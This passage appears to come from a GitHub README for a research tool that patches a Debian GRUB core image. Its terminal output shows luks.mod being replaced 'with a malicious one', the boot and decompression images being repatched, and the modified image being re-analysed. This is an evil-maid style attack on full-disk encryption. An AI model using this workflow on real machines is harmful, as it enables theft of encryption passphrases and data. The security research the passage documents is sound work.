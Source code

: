```bash
grub_module: type=2 size=0x3c    md5=6288acdd7cdf30f39fc6ea6a620104bc filename= content=b'cryptomount -u bf1b9823440d4268af072fff335d67fa\n\x00\x00\x00\x00'
grub_module: type=3 size=0x68    md5=4cab02b1b261cc664b2eb60b55c2b9ae filename= content=b'(lvmid/PrEOaz-cSyI-bAUy-seQF-3kgF-p3Ox-oGMfXj/9LnOBV-Bb7m-rKOf-4Qua-TU86-wzxO-iQGGCO)/boot/grub\x00'
Loaded 'mods-debian11/disk.mod' and added it as first module
Replacing luks.mod with malicious one
Creating working-dir/patched-modules-decompressed.img'
Creating working-dir/patched-modules-compressed.img'
Executing 'xz -z --lzma1 --format=raw < working-dir/patched-modules-decompressed.img > working-dir/patched-modules-compressed.img'
Patching diskboot image
Looking for diskboot.img in working-dir/core/patched-core.img
 Trying 'modules/mods-debian11/diskboot.img'
Found modules/mods-debian11/diskboot.img at offset 0x0 (size 0x200)

Patched sector length: we need 0x6b sectors
Patching decompress image
compressed_size=0xca3c decompressed_size=0x1dfa0
Looking for lzma_decompress.img in working-dir/core/patched-core.img
 Trying 'modules/mods-debian11/lzma_decompress.img'
Found modules/mods-debian11/lzma_decompress.img at offset 0x200 (size 0xb20)

Done patching decompress image in working-dir/core/patched-core.img
kmille@linbox:grub-luks 
```

4. Analyzing it again (now disk.mod is loaded as a dependency as the first module, luks.mod was replaced by our malicious one)

```bash
kmille@linbox:grub-luks python analyze-core.py working-dir/core/patched-core.img
Let's analyse working-dir/core/patched-core.img \o/
Cleaning working directory working-dir
Looking for diskboot.img in working-dir/core/patched-core.img
 Trying 'modules/mods-debian11/diskboot.img'
Found modules/mods-debian11/diskboot.img at offset 0x0 (size 0x200)

Parsing diskboot.img in working-dir/core/patched-core.img
grub_pc_bios_boot_blocklist: sector_next_image=0x2 size=0x6b segment=0x820

Parsing lzma_decompress.img in working-dir/core/patched-core.img
lzma_decompress.img: decompressor_compressed_size=0xca3c decompressor_uncompressed_size=0x1dfa0

Looking for lzma_decompress.img in working-dir/core/patched-core.img
 Trying 'modules/mods-debian11/lzma_decompress.img'
Found modules/mods-debian11/lzma_decompress.img at offset 0x200 (size 0xb20)

Decompressed data starts at offset 0xd20
Extracted compressed blob at offset 0xd20 to 'working-dir/modules-compressed.img'
Executing 'xzcat --lzma1 --format=raw < working-dir/modules-compressed.img > working-dir/modules-decompressed.img'
Decompressed blob to 'working-dir/modules-decompressed.img'

Parsed kernel_size (0x7244)
Parsing grub_module_info32 structure at offset 0x7244
grub_module_info32: magic=0x676d696d offset=0xc total_module_size=0x16d50 
Dumped kernel to working-dir/kernel.img

Parsing modules starting at offset 0x7250
grub_module: type=0 size=0x960   md5=d6e4404857d9d60af94f99c4378f56fe filename=modules/mods-debian11/disk.mod
grub_module: type=0 size=0xbd4   md5=a49026589c78edfed916e03dcfaa2b0e filename=modules/mods-debian11/fshelp.mod
```